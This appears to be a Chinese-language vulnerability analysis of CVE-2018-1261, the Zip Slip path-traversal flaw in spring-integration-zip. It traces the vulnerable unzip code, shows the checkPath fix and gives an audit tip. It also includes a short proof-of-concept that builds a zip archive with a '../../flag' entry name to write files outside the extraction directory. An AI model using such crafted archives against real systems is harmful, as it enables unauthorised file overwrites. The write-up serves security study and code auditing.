


## **漏洞公告**

CVE-2018-1261：具有spring-integration-zip的不安全解压缩

危害等级：高

漏洞描述：

spring-integration-zip 部分版本暴露了一个任意的文件写入漏洞，可以使用特制的zip压缩文件（也影响其他压缩文件，bzip2，tar，xz，war，cpio，7z）来实现，该压缩文件包含路径遍历文件名。 所以当文件名被连接到目标提取目录时，最终路径会在目标文件夹之外结束。
这只有在使用这个库的应用程序接受并解包不受信任的zip文件时才会发生。

## **环境搭建**

### ***1、新建 maven 项目***

在 pom 文件中加入

```java
<!-- https://mvnrepository.com/artifact/org.springframework.integration/spring-integration-zip -->
<dependency>
    <groupId>org.springframework.integration</groupId>
    <artifactId>spring-integration-zip</artifactId>
    <version>1.0.0.RELEASE</version>
</dependency>
```


maven 会自动下载其他三个依赖的包：```spring-integration-core(4.3.10.RELEASE)```、```spring-integration-file(4.3.10.RELEASE)```、```zt-zip(1.11)```

### ***2、解压代码***
```java
public class CVE_2018_1261 {
    public static void main(String[] args){
        UnZipTransformer();
    }
    private static void  UnZipTransformer(){
        final UnZipTransformer unZipTransformer = new UnZipTransformer(); //创建 UnZipTransformer 解压对象
        unZipTransformer.setWorkDirectory(new File("F:\\java\\spring\\spring-integration-extensions-zip\\work")); //设置解压目录
        unZipTransformer.setZipResultType(ZipResultType.FILE); //设置解压结果类型
        unZipTransformer.afterPropertiesSet(); //加载配置文件 spring-integration-core-4.3.10.RELEASE.jar!\META-INF\spring.integration.default.properties,可以去掉这一行
        final Message<File> message = MessageBuilder.withPayload(new File("F:\\java\\spring\\spring-integration-extensions-zip\\xxxx.zip")).build(); //创建 Message 对象
        unZipTransformer.transform(message); //根据 message 对象做解压操作
    }
}
```

```java
final Message<File> message = MessageBuilder.withPayload(new File("F:\\java\\spring\\spring-integration-extensions-zip\\xxxx.zip")).build(); 
```

上面代码会生成 Message 对象，里面主要封装了一个 File 对象和一个 MessageHeaders 对象， File 对象为要解压的文件，MessageHeaders 对象中的 id 为解压文件所放置的子目录名称(随机生成)



然后调用 UnZipTransformer 对象的 transform 方法做解压操作，最终做解压操作的是 doZipTransform 方法
在 68 行调用 ZipUtil.iterate 方法，传入解压文件的输入流和 ZipEntryCallback 对象

iterate 方法根据输入流创建 ZipInputStream 输入流对象，然后遍历获取 ZipEntry 对象并调用 ZipEntryCallback 对象的 proccess 方法，传入 ZipInputStream 输入流对象和 ZipEntry 对象

```java
public static void iterate(InputStream is, ZipEntryCallback action, Charset charset) {
    try {
        ZipInputStream in = null;
        if (charset == null) {
            in = new ZipInputStream(new BufferedInputStream(is));
        } else {
            in = ZipFileUtil.createZipInputStream(is, charset);
        }

        ZipEntry entry;
        while((entry = in.getNextEntry()) != null) {
            try {
                action.process(in, entry);
            } catch (IOException var6) {
                throw new ZipException("Failed to process zip entry '" + entry.getName() + " with action " + action, var6);
            } catch (ZipBreakException var7) {
                break;
            }
        }

    } catch (IOException var8) {
        throw ZipExceptionUtil.rethrow(var8);
    }
}
```

解压代码中我们设置解压结果类型为 ZipResultType.FILE，所以在 process 方法中会进入下面语句处理逻辑。首先根据解压目录和 Message 对象中的 MessageHeaders 对象中的 id 值创建目录。然后根据压缩文件中的文件名创建 File 对象，最终调用 IOUtils 类的 copyLarge 方法将内容写入文件。因为会根据压缩文件中的文件名创建文件，所以当文件名是 "..\" 时，会造成任意目录写入

```java
if (ZipResultType.FILE.equals(UnZipTransformer.this.zipResultType)) {
    File tempDir = new File(UnZipTransformer.this.workDirectory, message.getHeaders().getId().toString());
    tempDir.mkdirs();
    File destinationFile = new File(tempDir, zipEntryName);
    if (zipEntry.isDirectory()) {
        destinationFile.mkdirs();
    } else {
        SpringZipUtils.copy(zipEntryInputStream, destinationFile);
        uncompressedData.put(zipEntryName, destinationFile);
    }
}
```

## **漏洞修复**

在 1.0.2.RELEASE 版本中加入了 checkPath 方法。该方法会将最终写入文件的路径和解压文件目录做判断，最终只能在解压文件目录中写入文件。

```java
public File checkPath(Message<?> messagex, String zipEntryName) throws IOException {
    File tempDir = new File(UnZipTransformer.this.workDirectory, messagex.getHeaders().getId().toString());
    tempDir.mkdirs();
    File destinationFile = new File(tempDir, zipEntryName);
    if (!destinationFile.getCanonicalPath().startsWith(UnZipTransformer.this.workDirectory.getCanonicalPath())) {
        throw new ZipException("The file " + zipEntryName + " is trying to leave the target output directory of " + UnZipTransformer.this.workDirectory);
    } else {
        return destinationFile;
    }
}
```

## **POC**

可以使用 ZipTransformer 生成 POC

```java
private static void  zipTransformer(){
    final ZipTransformer zipTransformer = new ZipTransformer(); //创建 ZipTransformer 压缩对象
    zipTransformer.setWorkDirectory(new File("F:\\java\\spring\\spring-integration-extensions-zip\\work")); //设置压缩的 work 目录
    zipTransformer.afterPropertiesSet(); //创建 Properties 对象，使用其生成的 this.fileNameGenerator 对象获取 baseFileName
    zipTransformer.setUseFileAttributes(false); //设置 UseFileAttributes 为 false，用自定义的 EntryFileName

    final String zipEntryFileName = "../../flag"; //设置自定义的 EntryFileName
    Message<File> message = MessageBuilder.withPayload(new File("F:\\java\\spring\\spring-integration-extensions-zip\\aaa.txt")).setHeader(ZipHeaders.ZIP_ENTRY_FILE_NAME, zipEntryFileName).build(); //设置要压缩的文件
    zipTransformer.transform(message); //做压缩
}
```

会生成 aaa.txt.zip 文件




## **总结**

在进行代码审计中可以查看在解压时是否使用了 in.getNextEntry().getName() 做了文件名拼接

## **参考**
https://github.com/spring-projects/spring-integration-extensions/commit/a5573eb232ff85199ff9bb28993df715d9a19a25